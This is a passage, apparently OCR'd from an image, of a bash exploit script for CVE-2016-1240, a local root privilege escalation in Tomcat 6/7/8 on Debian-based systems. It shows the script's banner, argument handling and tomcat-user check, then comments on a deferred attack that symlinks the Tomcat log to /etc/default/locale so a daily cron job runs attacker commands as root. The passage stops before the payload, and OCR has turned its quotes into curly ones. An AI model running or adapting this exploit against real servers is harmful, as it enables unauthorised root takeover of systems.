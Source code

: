 ```
echo -e “\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n”

echo -e “Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m”

# Args

if [ $# -lt 1 ]; then

echo -e “\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n”

exit 3

fi

if [ “$2” = “-deferred” ]; then

mode=“deferred”

else

mode=“active”

fi

# Priv check

echo -e “\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`”

id | grep -q tomcat

if [ $? -ne 0 ]; then

echo -e “\n[!] You need to execute the exploit as tomcat user! Exiting.\n”

exit 3

fi

# Set target paths

TOMCATLOG="$1"

if [ ! -f $TOMCATLOG ]; then

echo -e “\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn’t exist. Try again.\n”

exit 3

fi

echo -e “\n[+] Target Tomcat log file set to $TOMCATLOG”

# [ Deferred exploitation ]

# Symlink the log file to /etc/default/locale file which gets executed daily on default

# tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.

# Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been

```